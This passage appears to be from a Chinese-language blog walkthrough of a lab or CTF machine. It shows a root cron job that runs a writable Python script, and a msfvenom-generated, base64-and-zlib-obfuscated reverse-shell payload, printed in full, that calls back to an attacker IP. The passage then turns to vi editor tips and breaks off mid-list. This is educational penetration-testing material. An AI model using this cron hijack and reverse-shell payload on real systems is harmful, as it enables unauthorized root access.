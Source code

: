再看一下cron.d，提示是一个文件夹，进去翻看有一个automate


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231342026-1477966051.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231342026-1477966051.png)



```
* * * * * root /usr/bin/python /var/www/connect.py
```

每分钟以root权限执行/var/www/下的connect.py


那我们先看一下 cat /var/www/connect.py



```
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

#### msfvenom生成payload



```
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.236.128 lport=444 -f raw

```


```
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqNkFELgjAUhf/K2NOEuLUlYoQPEgYRFaTvkmuhZJt45/+PZbA9el92d+53zxnrPoMZLUEj38oSQlbkVzg1w2ikQvSacf1+7luDNqN8J4AnKYhtAlyk1M+daRbHsVcwmzNgPtj/lh/r07WoguRZL2+Hc11W9yK/RIEJSKO1kpYx9wK/5fKiADQIz2kQDOHV9UobFnl2s5DjCzkRcEPmfw7ko+8ZXTedXmNLoy8kd1w/')[0])))
```

用vi编辑器将payload插入进connect.py中，这里给了一些vi的常用命令


#### vi编辑器



> 默认情况下，VI编辑器是命令模式，需要在里面写东西的时候需要进入编辑模式
> 
> 
> 命令模式到编辑模式：插入命令i,附加命令a,打开命令o，修改命令c，取代命令r，替换命令s
> 
> 
> 编辑模式到命令模式：Esc
> 
> 
> \*\*退出流程：
> 
> 
> 1\.进入命令模式
> 
> 
> 2\.进入末行模式
> 
> 
> 3\.在末行模式输入以下内容，对应相应操作\*\*
> 
> 
> 【:w】 保存文件
> 
> 
> 【:w!】 若文件为只读，强制保存文件